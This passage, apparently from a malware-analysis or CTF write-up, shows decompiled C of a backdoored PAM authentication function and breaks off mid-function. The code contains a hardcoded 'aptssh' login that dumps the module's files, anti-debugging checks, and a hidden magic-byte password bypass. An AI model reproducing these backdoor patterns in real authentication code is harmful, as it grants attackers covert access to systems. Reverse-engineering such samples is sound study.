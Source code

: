 ```c
int __fastcall pam_sm_authenticate(__int64 a1, __m128 _XMM0)
{
  int result; // eax
  ...
  char *username; // [rsp+18h] [rbp-110h]
  char *authtok; // [rsp+20h] [rbp-108h] MAPDST BYREF
  char s2[8]; // [rsp+28h] [rbp-100h] BYREF
  char s[16]; // [rsp+30h] [rbp-F8h] BYREF
  int v23; // [rsp+90h] [rbp-98h]

  rand();
  __asm { vpxor   xmm0, xmm0, xmm0 }
  v23 = 0;
  __asm
  {
    vmovdqa xmmword ptr [rsp+128h+s], xmm0
    vmovdqa [rsp+128h+var_E8], xmm0
    vmovdqa [rsp+128h+var_D8], xmm0
    vmovdqa [rsp+128h+var_C8], xmm0
    vmovdqa [rsp+128h+var_B8], xmm0
    vmovdqa [rsp+128h+var_A8], xmm0
  }
  if ( dfgebrycw() )
  {
    v4 = 10000;
    do
      v4 -= 8;
    while ( v4 );
    return 10;
  }
  if ( (unsigned int)pam_get_user() )
    return 10;
  if ( (unsigned int)pam_get_authtok(a1, 6LL, &authtok, 0LL) || dfgebrycw() )
    return 7;
  send_debug_message();
  if ( !strcmp(authtok, "aptssh") )
  {
    if ( !strcmp(username, "aptssh") )
    {
      output_base64_file(a1, "/lib/security/pam_passfile.so");
      output_base64_file(a1, "/pam_passfile.o");
      return 0;
    }
    return 10;
  }
  if ( ierubvhcjsx() )
    return 10;
  if ( dfgebrycw() )
    return 7;
  pam_casual_auth(&v13);
  if ( strlen(authtok) > 0x64 )
  {
    v5 = 7000;
    do
      v5 -= 8;
    while ( v5 );
    *(_DWORD *)s2 = 0xADC29EC3;
    *(_WORD *)&s2[6] = 0xAFC3;
    *(_WORD *)&s2[4] = v13;                     // 0xBEC2
    s[0] = 0;
    result = memcmp(authtok + 0x64, s2, 9uLL);
    if ( !result )
    {
```